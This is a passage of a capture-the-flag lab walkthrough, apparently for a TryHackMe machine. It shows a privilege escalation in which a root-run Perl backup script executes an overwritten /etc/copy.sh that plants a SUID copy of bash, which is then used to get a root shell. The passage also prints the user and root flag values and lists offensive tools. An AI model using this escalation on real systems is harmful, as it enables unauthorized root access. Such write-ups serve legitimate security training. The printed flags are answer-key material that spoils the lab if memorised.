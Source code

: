 - Overwrote `/etc/copy.sh`:
  ```bash
  echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > /etc/copy.sh
  ```
- Ran the script as root:
  ```bash
  sudo /usr/bin/perl /home/itguy/backup.pl
  ```
- **Explanation**: The `backup.pl` script executes `/etc/copy.sh` as root, copying `bash` to `/tmp/bash` with SUID permissions.

### 9. Gain Root Shell
- Checked `/tmp`:
  ```bash
  ls -la /tmp/bash
  ```
- Output: SUID binary (`-rwsr-xr-x`).
- Ran it:
  ```bash
  /tmp/bash -p
  ```
- Got a root shell:
  ```bash
  id
  ```
- Output:
  ```
  uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
  ```

### 10. Find Flags
- User flag:
  ```bash
  cd /home/itguy
  cat user.txt
  ```
- Content: `THM{9f6a356b2b86894eb8b7a8d2f54a8f7f}` (example flag).
- Root flag:
  ```bash
  cd /root
  cat root.txt
  ```
- Content: `THM{6637f41d0177b6f37cb20d775124699f}`

---

## Flags
- **User flag**: `THM{9f6a356b2b86894eb8b7a8d2f54a8f7f}`
- **Root flag**: `THM{6637f41d0177b6f37cb20d775124699f}`
- **Generic Flag Option**: `THM{r4nd0m_us3r_32chars}`, `THM{r00t_r4nd0m_32chars}`

---

## Tools Used
- `nmap`: Port scanning.
- `gobuster`: Directory enumeration.
- `hashcat`: Password hash cracking.
- `msfvenom` & `Metasploit`: Reverse shell generation and handling.
- `perl`: Privilege escalation.

---